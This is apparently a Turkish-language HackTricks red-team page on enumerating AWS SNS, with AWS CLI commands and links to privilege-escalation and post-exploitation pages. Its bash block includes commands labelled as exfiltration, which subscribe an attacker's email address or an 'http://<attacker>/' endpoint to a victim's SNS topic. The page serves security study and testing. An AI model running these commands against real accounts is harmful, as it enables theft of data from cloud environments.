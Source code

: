 # AWS - SNS Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek paylaşın**.

</details>

## SNS

Amazon Simple Notification Service (Amazon SNS), **tamamen yönetilen bir mesajlaşma servisi** olarak tanımlanır. Hem **uygulama-uygulama** (A2A) hem de **uygulama-kullanıcı** (A2P) iletişim türlerini destekler.

A2A iletişimi için önemli özellikler arasında **yayın/abonelik (pub/sub) mekanizmaları** bulunur. Bu mekanizmalar, yüksek verimli, **itme tabanlı, çoklu-mesajlı iletişimi** mümkün kılan konuları tanıtır. Bu özellik, dağıtık sistemler, mikro hizmetler ve olay odaklı sunucusuz mimarileri içeren senaryolarda son derece avantajlıdır. Yayıncı sistemler, bu konuları kullanarak mesajları **geniş bir abone sistemine** etkin bir şekilde dağıtabilir ve fanout iletişim desenini kolaylaştırabilir.

### **SQS ile Farkı**

**SQS**, **kuyruk tabanlı** bir hizmettir ve mesajların **tek bir tüketici** tarafından işlenmesini sağlayarak noktadan noktaya iletişimi sağlar. **En az bir kez teslimat** sunar, standart ve FIFO kuyrukları destekler ve yeniden deneme ve gecikmeli işleme için mesaj saklama imkanı sağlar.\
Öte yandan, **SNS**, **yayın/abonelik tabanlı bir hizmet** olup, mesajları **çoklu abonelere** aynı anda yayınlayarak **birçok aboneye** iletişim imkanı sağlar. E-posta, SMS, Lambda fonksiyonları ve HTTP/HTTPS gibi **çeşitli abonelik uç noktalarını** destekler ve hedeflenen mesaj iletimi için filtreleme mekanizmaları sağlar.\
Her iki hizmet de dağıtık sistemlerde bileşenler arasında bağımsızlık sağlarken, SQS kuyruk tabanlı iletişime odaklanırken, SNS olay odaklı, fan-out iletişim desenlerine vurgu yapar.

### **Numaralandırma**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Dikkat, eğer **konu FIFO türünde ise**, yalnızca SQS protokolünü kullanan aboneler kullanılabilir (HTTP veya HTTPS kullanılamaz).

Ayrıca, `--topic-arn` bölümü bölgeyi içerse bile, doğru bölgeyi **`--region`** ile belirttiğinizden emin olun; aksi takdirde, erişiminizin olmadığı bir hata alırsınız, ancak sorun bölgededir.
{% endhint %}

### Kimlik Doğrulamasız Erişim

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

### Yetki Yükseltme

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

### Saldırı Sonrası

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

### Kalıcılık

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

# Referanslar
* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>ile sıfırdan kahraman olmak için AWS hackleme öğrenin</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek veya HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>
